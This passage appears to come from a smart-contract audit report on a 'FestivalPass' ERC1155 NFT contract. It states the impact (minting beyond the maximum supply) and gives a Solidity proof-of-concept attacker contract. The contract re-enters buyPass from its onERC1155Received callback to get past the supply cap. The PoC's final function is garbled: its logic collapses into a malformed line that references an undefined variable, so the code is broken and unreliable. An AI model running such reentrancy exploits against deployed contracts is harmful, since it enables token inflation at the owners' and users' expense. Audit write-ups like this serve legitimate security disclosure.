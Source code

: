 **Impact**:

* Although the attacker still pays for each purchase, the total number of minted NFTs will exceed the intended maximum supply. This can lead to supply inflation and user dissatisfaction.

## Proof of Concept

````Solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";
import "../src/FestivalPass.sol";
import "./FestivalPass.t.sol";
import {console} from "forge-std/Test.sol";

contract AttackBuyPass{
	address immutable onlyOnwer;
	FestivalPassTest immutable festivalPassTest;
	FestivalPass immutable festivalPass;
	uint256 immutable collectionId;
	uint256 immutable configPassPrice;
	uint256 immutable configPassMaxSupply;
	
	uint256 hackMintCount = 0;
	
	constructor(FestivalPassTest _festivalPassTest, FestivalPass _festivalPass, uint256 _collectionId, uint256 _configPassPrice, uint256 _configPassMaxSupply) payable {
		onlyOnwer = msg.sender;
		
		festivalPassTest = _festivalPassTest;
		festivalPass = _festivalPass;
		collectionId = _collectionId;
		configPassPrice = _configPassPrice;
		configPassMaxSupply = _configPassMaxSupply;
	
		hackMintCount = 1;
	}
	
	receive() external payable {}
	fallback() external payable {}
	
	function DoAttackBuyPass() public {
		require(msg.sender == onlyOnwer, "AttackBuyPass: msg.sender != onlyOnwer");
	
		// This attack can only bypass the "maximum supply" restriction.
		festivalPass.buyPass{value: configPassPrice}(collectionId);
	}
	
	function onERC1155Received(
		address operator,
		address from,
		uint256 id,
		uint256 value,
		bytes calldata data
	) external returns (bytes4){
		if (hackMintCount  festivalPass.passMaxSupply(targetPassId));
	}
}
```
````
